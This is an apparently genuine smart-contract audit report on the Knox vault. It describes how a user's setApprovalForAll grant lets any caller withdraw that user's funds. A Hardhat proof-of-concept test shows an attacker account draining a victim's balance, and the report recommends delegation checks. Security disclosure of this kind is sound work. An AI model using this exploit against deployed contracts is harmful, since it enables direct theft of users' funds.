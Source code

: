 CRYP70

high

# Users are left exposed after approving the vault address for funds withdrawal

## Summary
There exists a `vault.withdraw()` function which allows users to withdraw their assets from a vault and return the tokens back into their wallet. A user will call `Queue.setApprovalForAll(vault.address, true)` against the vault. Thinking that the vault has a friendly address, this actually exposes users to attack. 

## Vulnerability Detail
When the `vault` has been assigned to the  `queue` as `setApproveForAll`, this sets full approval rights given to an operator - in this instance the vault. If the vault is set to approved in the queue (as expected), any user can call `withdraw()` on the vault and steal another user's funds. 

## Impact
The result of this is the direct theft of user funds. In addition to this, once a user calls `setApprovalForAll()`, a user might forget to reset this back to false - as a result, an attacker could keep coming back and calling `withdraw()` using the victims address as the `owner` once again because there are no checks in the vault base. I have awarded this a "high" in severity because this results in a direct theft of funds where the adversary benefits a great deal at the cost of the victim. In addition to this, it's fairly trivial to execute the attack on a victim. 

## Code Snippet
https://github.com/sherlock-audit/2022-09-knox/blob/main/knox-contracts/contracts/vault/VaultBase.sol#L84

## Proof of Concept
```javascript
it("should withdraw to attacker if auction has been processed", async () => {

	const mySigners = await ethers.getSigners();
	const eve = mySigners[10]; // Completely random unknown signer
	const alice = signers.lp1;
	
	await queue
		.connect(alice)
		.setApprovalForAll(vault.address, true);
	
	console.log("QUEUE VAULT BALANCE: " + ethers.utils.formatEther(await vault.balanceOf(queue.address)));
	
	console.log("BALANCE OF EVE BEFORE VAULT WITHDRAWAL: " + ethers.utils.formatEther(await vault.balanceOf(eve.address)));
	console.log("BALANCE OF ALICE BEFORE VAULT WITHDRAWAL: " + ethers.utils.formatEther(await vault.balanceOf(alice.address)));
	
	await vault
		.connect(eve)
		.withdraw(0, eve.address, alice.address);
	
	console.log("BALANCE OF EVE AFTER VAULT WITHDRAWAL: " + ethers.utils.formatEther( await vault.balanceOf(eve.address)));
	console.log("BALANCE OF ALICE AFTER VAULT WITHDRAWAL: " + ethers.utils.formatEther(await vault.balanceOf(alice.address)));
	
	await expect(Number(ethers.utils.formatEther(await vault.balanceOf(alice.address)))).to.equal(0.0);
	await expect(Number(ethers.utils.formatEther(await vault.balanceOf(eve.address)))).to.be.gte(10.0);
	
});
```
The test can be appended underneath `VaultBase.behaviour.ts:should permit withdrawals after withdrawal lock has been reset` .


## Tool used
Manual Review

## Recommendation
I recommend implementing a delegation system where users can elect another user(s) that they trust to withdraw funds on their behalf, then checking in the `VaultBase.sol` in the function of `withdraw()` that the calling user is either the owner or they have been delegated to withdraw as opposed to leaving victim funds totally exposed. 
